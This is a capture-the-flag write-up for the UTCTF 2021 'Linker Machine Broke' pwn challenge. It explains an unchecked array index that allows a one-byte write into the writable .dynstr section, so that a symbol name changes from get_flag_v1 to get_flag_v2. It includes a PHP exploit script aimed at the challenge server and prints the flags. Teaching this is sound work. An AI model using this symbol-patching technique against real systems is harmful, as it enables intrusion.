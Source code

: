 # Linker Machine Broke - UTCTF 2021 (pwn, 986p, 39 solved)

## Introduction
Linker Machine Broke is a binary exploitation task.

An archive containing an x64 ELF binary and a dynamic library is given. When
running the binary locally, it prints a fake flag:
`utflag{look_in_v2_for_the_flag}`. When running the binary remotely, it prints
an error from the linker:
`/build/linker: symbol lookup error: /build/linker: undefined symbol: get_flag_v1`

## Reverse engineering
The binary prints a list of 4 elements and asks the user to provide an index `n`
and a value. The binary replaces the `n`th element of the list with the provided
value. The list is located in the BSS.

```c
int  idx;
char value;

scanf("%d",   &idx);
scanf("%hhd", &value);

vals[idx] = value;
```

The challenge makes it clear that the function `get_flag_v2` should be called.
The binary imports and calls the `get_flag_v1` function.

## Vulnerability
There are no bounds check on the index, meaning it is possible to change a byte
at any writable location in the program.

The `.dynstr` section that contains imported function names is writable.

## Exploitation
It is possible to call the `get_flag_v2` function by patching the `1` byte to
`2` of the `get_flag_v1` string in the `.dynstr` section.

**Flag**: `utflag{you_fixed_my_linker!738}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "Process.php";
require_once "Socket.php";

const LOCAL = false;
const HOST  = "pwn.utctf.live";
const PORT  = 5433;

const VALS    = 0x3458;
const VERSION = 0x51A;

printf("[*] Creating process\n");
$time = microtime(true);

putenv("LD_LIBRARY_PATH=.");
if(LOCAL)
	$t = new Process("./linker");
else
	$t = new SocketTube(HOST, PORT);


printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$idx   = VERSION - VALS;
$value = ord("2");

LOCAL || $t->expectLine("Want to look at my array?");
LOCAL || $t->expectLine("1 2 3 4 ");
LOCAL || $t->expectLine("Since you seem nice, you can even change one of the values");

$t->write("$idx $value\n");
LOCAL || $t->expectLine("I'll give you the flag now");

printf("[!] Dumping...\n");
while($buffer = $t->read(4096))
	printf("%s\n", $buffer);
```
